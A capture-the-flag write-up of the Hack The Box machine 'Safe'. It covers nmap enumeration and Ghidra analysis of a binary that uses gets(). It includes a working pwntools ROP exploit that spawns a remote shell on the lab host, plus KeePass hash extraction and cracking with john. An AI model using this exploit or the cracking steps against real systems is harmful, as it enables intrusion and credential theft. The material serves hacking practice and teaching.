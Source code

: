```yaml
---
title: Hack The Box Safe Write Up
published: true
---
```

Hey Guys.This is my write up about safe from hack the box.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/safe.png)

It is linux box and rated as easy.It is an oscp like box so let’s get jump in.

As always we start with nmap to scan for open port and services.

# [](#header-3)Enumeration

# [](#header-4)Nmap 
```
root@ch4n:~/Desktop/htb/boxes/safe# nmap -sC -sV 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 20:08 EST
Nmap scan report for 10.10.10.147
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.46 seconds
```
Here is nmap scan and we got http on port 80 and ssh on port 22.

So nothing was interesting there and let’s go to the web page.

# [](#header-4)Web Page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page_source.png)

So when I check the web page source,I found that myapp is running on port 1337.

So let’s see port 1337 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/port_1337.png)

In here we got some text.So I downloaded myapp to my machine.And Let’s analyze it.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/checksec_myapp.png)

So in here when we check the file,it is an 64bit binary and NX is enabled but PIE is not..

So let’s disassemble the binary and let’s see how the program works..

I opened it up  in ghidra and check the main function.It is interesting one:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/ghidra.png)

```
undefined8 main(void)

{
  char local_78 [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(local_78);
  puts(local_78);
  return 0;
}
```
When we look up the code in main function you can see that the system excute usr/bin/uptime and it print What do you want to echo me back?

There are also gets and puts.

# [](#header-3)Exploitation 

I opened myapp with gdb and let’s calculate the offset:-)

I created the pattern and then run and put the pattern then program was crashed:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset%201.png)

 we can calculate the offset.It is 120.Then I create the pattern with 112 and added 8 bytes of b at the end.
 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset2.png)

In here we  can see that rbp register contains bbbbbbbb and it shows that This  offset  can control RIP with 120 bytes + 8 bytes:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/rbp_registers.png)

# [](#header-4)Writing Exploit 
I can’t  put the shellcode on the stack because NX is enabled so the stack isn’t executable. 

we can use the system function cause PIE is not enable so the address for system doesn't change

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/grep%20pop.png)

I used ropper -f myapp to find rop gadgets

So we will use this one:-)

```
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
```
# [](#header-4)Exploit
```
from pwn import*

p = remote("10.10.10.147" , 1337)
context(os="linux", arch="amd64")

JUNK  = "A"* 112
sh = "/bin/sh\x00"
system = p64(0x401040)
test = p64(0x401152)
r13 = p64(0x401206)

payload = JUNK + sh + r13 + system + "BBBBBBBB" + "CCCCCCCC" + test

p.recvline()
p.sendline(payload)
p.interactive()
```
After running this code we got the shell as user so this shell is not fully interactive so I added our ssh key to authorized_keys 

Then connect with sssh
```
user@safe:~$ ls -la
total 11284
drwxr-xr-x 3 user user    4096 May 13  2019 .
drwxr-xr-x 3 root root    4096 May 13  2019 ..
lrwxrwxrwx 1 user user       9 May 13  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user     220 May 13  2019 .bash_logout
-rw-r--r-- 1 user user    3526 May 13  2019 .bashrc
-rw-r--r-- 1 user user 1907614 May 13  2019 IMG_0545.JPG
-rw-r--r-- 1 user user 1916770 May 13  2019 IMG_0546.JPG
-rw-r--r-- 1 user user 2529361 May 13  2019 IMG_0547.JPG
-rw-r--r-- 1 user user 2926644 May 13  2019 IMG_0548.JPG
-rw-r--r-- 1 user user 1125421 May 13  2019 IMG_0552.JPG
-rw-r--r-- 1 user user 1085878 May 13  2019 IMG_0553.JPG
-rwxr-xr-x 1 user user   16592 May 13  2019 myapp
-rw-r--r-- 1 user user    2446 May 13  2019 MyPasswords.kdbx
-rw-r--r-- 1 user user     675 May 13  2019 .profile
drwx------ 2 user user    4096 Jan 15 10:32 .ssh
-rw------- 1 user user      33 May 13  2019 user.txt
```
 In user directory,there are images and interesting files called MyPasswords.kdbx 

```
scp -i safe user@10.10.10.147:* .
```
After downloading all files,I made a simple bash line:-)

```
root@ch4n:~/Desktop/htb/boxes/safe# keepass2john MyPasswords.kdbx > hash;for i in *.JPG;do keepass2john -k $i MyPasswords.kdbx; done >> hash
```

```
root@ch4n:~/Desktop/htb/boxes/safe# cat hash
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
I used john to crack the pass

```
root@ch4n:~/Desktop/htb/boxes/safe# john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt hash
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (KeePass [SHA256 AES 32/64])
Remaining 6 password hashes with 6 different salts
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (MyPasswords)
```
here we grab the pass as bullshit

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/kpcli_pass.png)

then login and with su cmd and grab the root flag 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/root.png)

That's it guys.

Enjoy my write up:-)

<script src="https://www.hackthebox.eu/badge/81292"></script>
